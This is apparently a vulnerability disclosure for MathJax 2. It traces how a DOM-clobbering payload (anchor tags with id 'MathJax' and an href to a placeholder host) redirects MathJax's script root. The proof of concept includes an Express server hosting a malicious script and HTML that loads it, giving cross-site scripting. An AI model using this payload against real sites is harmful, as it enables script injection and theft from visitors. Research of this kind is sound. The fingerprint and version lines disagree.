 ## MathJax

### Meta

+ Library: MathJax2
+ Stars: 10.1K
+ Version: v2.7.9
+ Fingerprint: `MathJax.version == "2.7.2"`
+ Payload: ```<a id="MathJax"></a> <a id="MathJax" name="root" href="https://xxx.xxx.xxx"></a>```
+ Impact: XSS
+ CVE: N/A
+ Status: Reported
+ Foundby: TheHulk
+ TheThing: None


### Library

URL: 
+ `https://cdn.jsdelivr.net/npm/mathjax@2/MathJax.js`
+ `https://www.mathjax.org/MathJax-v2-7-9-available/`


### Vulnerable Code Snippet

```javascript
if (document.getElementById && document.childNodes && document.createElement) {
    if (!(window.MathJax && MathJax.Hub)) {
        if (window.MathJax) {
            window.MathJax = {
                AuthorConfig: window.MathJax
            }
        } else {
            window.MathJax = {}
        }
```
```javascript
MathJax.Hub.Startup = {
    script: "",
    queue: MathJax.Callback.Queue(),
    signal: MathJax.Callback.Signal("Startup"),
    params: {},
    Config: function() {
        this.queue.Push(["Post", this.signal, "Begin Config"]);
        if (MathJax.AuthorConfig && MathJax.AuthorConfig.root) {
            MathJax.Ajax.config.root = MathJax.AuthorConfig.root
        }
```
```javascript
fileURL: function(j) {
  var i;
  while ((i = j.match(/^\[([-._a-z0-9]+)\]/i)) && b.hasOwnProperty(i[1])) {
      j = (b[i[1]] || this.config.root) + j.substr(i[1].length + 2) // Loading MathJax.AuthorConfig.root and type coercice to String
  }
  return j
}
```
```javascript
Load: function(k, m) {
  m = a.Callback(m);
  var l;
  if (k instanceof Object) {
      for (var j in k) {
          if (k.hasOwnProperty(j)) {
              l = j.toUpperCase();
              k = k[j]
          }
      }
  } else {
      l = k.split(/\./).pop().toUpperCase()
  }
  k = this.fileURL(k);
  if (this.loading[k]) {
      this.addHook(k, m)
  } else {
      this.head = h(this.head);
      if (this.loader[l]) {
          this.loader[l].call(this, k, m) // Calls loader['JS'] below

```

```javascript
loader: {
  JS: function(k, m) {
      var j = this.fileName(k);
      var i = document.createElement("script");
      var l = a.Callback(["loadTimeout", this, k]);
      this.loading[k] = {
          callback: m,
          timeout: setTimeout(l, this.timeout),
          status: this.STATUS.OK,
          script: i
      };
      this.loading[k].message = a.Message.File(j);
      i.onerror = l;
      i.type = "text/javascript";
      i.src = k + this.fileRev(j);
      this.head.appendChild(i)
  }
```

## PoC

Please note that for the following proof of concept, you will need to replace `xxx.xxx.xxx` with your own server address to host the malicious script and configure the URL to route `//config/TeX-AMS-MML_HTMLorMML.js`.
```
const express = require('express');
const path = require('path');

const app = express();
const port = 3000; 

// Middleware to normalize double slashes in the URL path
app.use((req, res, next) => {
  req.url = req.url.replace(/\/\//g, '/');
  next();
});

app.get('/config/TeX-AMS-MML_HTMLorMML.js', (req, res) => {
  const filePath = path.join(__dirname, 'poc', 'TeX-AMS-MML_HTMLorMML.js');
  res.sendFile(filePath);
});

// Start the server
app.listen(port, () => {
  console.log(`Server is running at http://localhost:${port}`);
});
```


### PoC #1
```html

<a id="MathJax"></a>
<a id="MathJax" name="root" href="https://xxx.xxx.xxx"></a>

<script>
	(function() {
		  var script = document.createElement("script");
		  script.type = "text/javascript";
		  script.src = "https://mathjax.rstudio.com/latest/MathJax.js?config=TeX-AMS-MML_HTMLorMML";
		  document.getElementsByTagName("head")[0].appendChild(script);
		}
	)();
</script>
```

### PoC #2
```html
<a id="MathJax"></a>
<a id="MathJax" name="root" href="https://xxx.xxx.xxx"></a>

<script>
	(function() {
		  var script = document.createElement("script");
		  script.type = "text/javascript";
		  script.src = "https://mathjax.rstudio.com/latest/MathJax.js?config=TeX-AMS-MML_HTMLorMML";
		  document.getElementsByTagName("head")[0].appendChild(script);
		}
	)();
</script>
```
